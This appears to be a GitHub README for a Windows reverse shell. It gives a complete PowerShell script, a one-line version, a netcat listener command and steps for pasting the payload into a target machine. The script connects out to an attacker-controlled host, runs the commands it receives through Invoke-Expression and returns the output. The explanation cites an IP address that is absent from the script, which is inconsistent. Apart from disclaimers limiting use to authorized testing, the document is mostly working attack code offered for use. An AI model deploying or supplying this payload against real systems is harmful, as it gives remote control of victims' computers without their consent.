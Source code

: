 ### **Direct Reverse Shell Setup**

## **Overview**
This document provides instructions for setting up and using a **Windows Reverse Shell** to connect from a target Windows machine back to an attacker's machine. The reverse shell allows an attacker to remotely execute commands on the target system by initiating a connection from the target to the attacker’s listener.

### **Important Disclaimer**
This tool is intended for ethical penetration testing, security research, or authorized security assessments only. Unauthorized use is illegal and unethical. Always obtain explicit permission before testing any system.

---
## **Requirements**
### **Attacker Machine**
1. **Netcat** or any other listener for receiving connections from the target system.
   - Use `nc` (Netcat) to listen for incoming connections:
     ```shell
     nc -lvnp 4444
     ```

2. **PowerShell** (on the target machine):
   - The script uses PowerShell to execute commands on the target system.

### **Target Machine (Windows)**
- Windows PowerShell, which is available on most modern versions of Windows.
  
## **Payload Script Explanation**

### **PowerShell Reverse Shell Script:**
```powershell
$client = New-Object System.Net.Sockets.TCPClient('<Kali-IP>', port);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | % { 0 };
while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
    $sendback = (iex $data 2>&1 | Out-String);
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte, 0, $sendbyte.Length);
    $stream.Flush();
};
$client.Close();
```

### One Line 
``` powershell
$client = New-Object System.Net.Sockets.TCPClient('<Kali-IP>', port);$stream = $client.GetStream();[byte[]]$bytes = 0..65535 | % { 0 };while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);$sendback = (iex $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush();};$client.Close();
```
### **Explanation:**
1. **TCP Connection**: The reverse shell creates a TCP connection to the attacker's machine using the specified IP (`10.10.1.6`) and port (`4444`).
2. **Data Stream**: Once connected, it listens for commands and executes them using `iex` (Invoke-Expression).
3. **Command Output**: The result of each command is sent back to the attacker, and this process continues until the connection is closed.

---

## **Setup Instructions**

### **Step 1: Set Up Listener on Attacker Machine**
On your Kali (attacker) machine, open a terminal and start a listener to receive the incoming reverse shell connection:
```bash
nc -lvnp 4444
```
This will start Netcat on port `4444`, listening for incoming connections from the target machine.

### **Step 2: Deliver the Payload to Target Machine**
 **Manual Execution**: 
   You can manually execute the script on the target machine by copying and pasting it into a PowerShell window.
   
---

## **Legal Disclaimer**

This tool is intended for use only in authorized penetration tests, security assessments, or other lawful security-related activities. Unauthorized access to computers and networks is illegal and unethical. Always obtain explicit written permission before using this tool on any system that you do not own or have authorization to test.

